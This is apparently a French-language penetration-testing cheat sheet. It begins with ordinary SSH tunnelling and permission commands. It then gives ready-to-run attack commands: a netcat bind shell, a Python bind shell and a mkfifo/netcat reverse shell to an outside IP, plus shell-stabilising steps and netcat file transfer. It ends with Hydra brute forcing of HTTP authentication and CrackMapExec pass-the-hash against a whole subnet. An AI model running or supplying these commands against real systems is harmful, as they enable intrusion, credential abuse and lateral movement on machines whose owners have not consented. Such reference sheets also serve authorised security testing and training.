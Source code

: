 Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lkvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port

## Reverse Shell

# Bash

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 8888 >/tmp/f
```

<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
 stty rows 40 columns 160
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

##### Tools

#### Hydra:
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

#### XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```


#### CrackMapExec

Une fois le hash administrateur récupéré sur un poste:

```
cme smb -u Administrateur -H HASH 192.168.20.0/24 --local-auth
```
